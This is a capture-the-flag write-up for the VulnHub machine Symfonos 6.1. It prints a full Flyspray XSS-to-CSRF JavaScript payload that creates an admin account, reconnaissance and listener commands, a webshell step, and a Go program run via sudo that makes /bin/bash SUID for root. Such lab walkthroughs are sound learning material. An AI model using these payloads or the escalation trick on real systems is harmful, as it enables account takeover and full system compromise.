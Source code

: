 ```yaml
---
layout: single
title: SymFonos 6.1 - VulnHub
excerpt: "In this machine, we are exploiting XSS to perform CSRF and abusing APIs to achieve RCE. Additionally, we are taking advantage of a Golang binary with sudoers configuration."
date: 2025-03-30
classes: wide
header:
  teaser: /img2/symfonos.png
  teaser_home_page: true
  icon: /img2/vulnhub.png
categories:
  - vulnhub
  - Linux
  - Medium
tags:
  - XSS
  - CSRF
  - API
  - RCE
  - Sudoers
---
```


![](/img2/Pasted%20image%2020250330203620.png)

## Introduction

> In this machine, we are exploiting XSS to perform CSRF and abusing APIs to achieve RCE. Additionally, we are taking advantage of a Golang binary with sudoers configuration.

## Reconnaissance

- Nmap 

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 192.168.1.151
```

![](/img2/Pasted%20image%2020250326213333.png)

- Whatweb

```bash
whatweb http://192.168.1.151/
```

![](/img2/Pasted%20image%2020250330164744.png)

- Gobuster

```bash
gobuster dir -u http://192.168.1.151/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50
```

![](/img2/Pasted%20image%2020250326213738.png)

## Exploitation

- Searchsploit

```bash
searchsploit flyspray
```

![](/img2/Pasted%20image%2020250330165304.png)

```bash
searchsploit -m php/webapps/41918.txt
```

```javascript
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form"action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

- Detect XXS in register pannel

![](/img2/Pasted%20image%2020250330164929.png)

![](/img2/Pasted%20image%2020250330165021.png)

- XSS -> CSRF

![](/img2/Pasted%20image%2020250330165707.png)

```bash
python3 -m http.server 80
```

![](/img2/Pasted%20image%2020250330170323.png)

- Login with new admin user

![](/img2/Pasted%20image%2020250330171420.png)

- Login into Gitea with achilles credentials and check the repositories

![](/img2/Pasted%20image%2020250330174817.png)

> If you don't know php you can use chatgpt 

![](/img2/Pasted%20image%2020250330175004.png)

- Discover endpoints in symfonos-api repository

![](/img2/Pasted%20image%2020250330185623.png)

- Endpoint /ls2o4g/v1.0/ping

![](/img2/Pasted%20image%2020250330184541.png)

- Endpoint /ls2o4g/v1.0/auth/login

![](/img2/Pasted%20image%2020250330184730.png)

- Endpoint /ls2o4g/v1.0/auth/check

![](/img2/Pasted%20image%2020250330184012.png)

![](/img2/Pasted%20image%2020250330184908.png)

- Endpoint /ls2o4g/v1.0/posts/

![](/img2/Pasted%20image%2020250330190437.png)

- Endpoint /ls2o4g/v1.0/posts/

![](/img2/Pasted%20image%2020250330190526.png)

- Endpoint /ls2o4g/v1.0/posts/{id}

![](/img2/Pasted%20image%2020250330190609.png)

- Endpoint /ls2o4g/v1.0/posts/{id}

![](/img2/Pasted%20image%2020250330190814.png)

- Endpoint /ls2o4g/v1.0/posts/{id}

![](/img2/Pasted%20image%2020250330190912.png)

- RCE

![](/img2/Pasted%20image%2020250330192302.png)

![](/img2/Pasted%20image%2020250330192349.png)

- WebShell

```bash
base64 shell.php
```

![](/img2/Pasted%20image%2020250330193851.png)

![](/img2/Pasted%20image%2020250330194013.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Migrate to achilles user

```bash
su achilles
```

- Check sudoers

```bash
sudo -l
```

![](/img2/Pasted%20image%2020250330201627.png)

- Exploit Go binary sudoers

```go
package main

import (
    "log"
    "os/exec"
)

func main() {

    cmd := exec.Command("chmod", "u+s", "/bin/bash")

    err := cmd.Run()

    if err != nil {
        log.Fatal(err)
    }
}
```

```bash
sudo /usr/local/go/bin/go run bash.go
```

```bash
bash -p
```

![](/img2/Pasted%20image%2020250330201813.png)